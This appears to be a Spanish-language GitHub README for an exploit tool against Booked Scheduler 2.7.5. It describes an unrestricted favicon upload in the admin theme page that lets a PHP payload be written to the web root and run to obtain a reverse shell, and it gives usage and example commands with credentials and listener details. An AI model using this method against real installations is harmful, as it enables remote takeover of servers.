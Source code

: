 # Booked Scheduler v2.7.5 Remote Command Execution

## Descripción
Este exploit aprovecha una vulnerabilidad de carga de archivos de Booked 2.7.5
En la sección **"Look and Feel"** `/booked/Web/admin/manage_theme.php`, se pueden modificar los archivos Logo-Favicon-CSS.
Las secciones de subida tienen control de la extensión del archivo, excepto la parte del favicon.
Puedes subir el archivo con la extensión que quieras a través del campo Favicon.
El archivo que subes se escribe en el directorio principal del sitio `/booked/Web/custom-favicon.php` con el nombre "custom-favicon".
Después de subir el payload php al directorio principal, el Exploit ejecuta el payload y recibe el shell.

## Uso
```python
 python3 bookedScheduler.py <target ip> <target port> <user> <password> <local ip> <local port>
```
## EJEMPLO:
```python
 python3 bookedScheduler.py 192.168.88.64 8003 "admin" "adminadmin" 192.168.88.64 22
```
![bookedExploit](https://github.com/hacknotes/Booked-Scheduler-v2.7.5-Remote-Command-Execution/blob/main/booked.png)
